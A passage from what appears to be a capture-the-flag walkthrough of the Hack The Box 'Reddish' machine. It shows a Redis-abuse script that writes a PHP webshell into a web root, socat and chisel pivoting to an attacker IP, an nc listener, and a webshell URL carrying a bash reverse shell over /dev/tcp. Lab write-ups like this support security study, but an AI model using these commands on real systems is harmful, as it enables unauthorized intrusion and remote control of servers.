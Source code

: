 ```bash
#!/bin/bash

## be sure to be in the same directory where the webshell is
cat x.php | redis-cli -h 127.0.0.1 -x set reverse

redis-cli -h 127.0.0.1 config set dir /var/www/html/8924d0549008565c554f8128cd11fda4/

redis-cli -h 127.0.0.1 config set dbfilename "x.php"

redis-cli -h 127.0.0.1 save
```

In case the webshell gets deleted re-run the script
```bash
bash redis-upload.sh
```

Remote command execution is obtained on 172.19.0.2.
![rce 172.19.0.2](/assets/img/htb/reddish/rce_172_19_0_2.png)

The attacker machine then transfers socat to the nodered container which the attacker machine has access, using socat it listens all the connections on port 9002 and redirects it to the attacker machine on port 9002, before doing this chisel is stopped with ctrl+c. [socat guide](https://www.cyberciti.biz/faq/linux-unix-tcp-port-forwarding/)

```bash
root@nodered:/tmp/workspace_nodered_container## ./socat TCP-LISTEN:9002,fork TCP:10.10.14.26:9002 &
```

Making use of chisel the ports from the other 2 machines are forwarded to the attacker machine again

```bash
./chisel client 10.10.14.26:1234 R:81:172.19.0.2:80 R:6379:172.19.0.3:6379
```

Upload the webshell again.

```bash
bash redis_upload.sh
```

On the attacker machine a listener is created on port 9002
```bash
nc -lnvp 9002
```
Using the webshell an interactive bash session is forwarded from 172.19.0.2 to 172.19.0.4 
```bash
http://127.0.0.1:81/8924d0549008565c554f8128cd11fda4/x.php?x=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/172.19.0.4/9002%200%3E%261%22
```
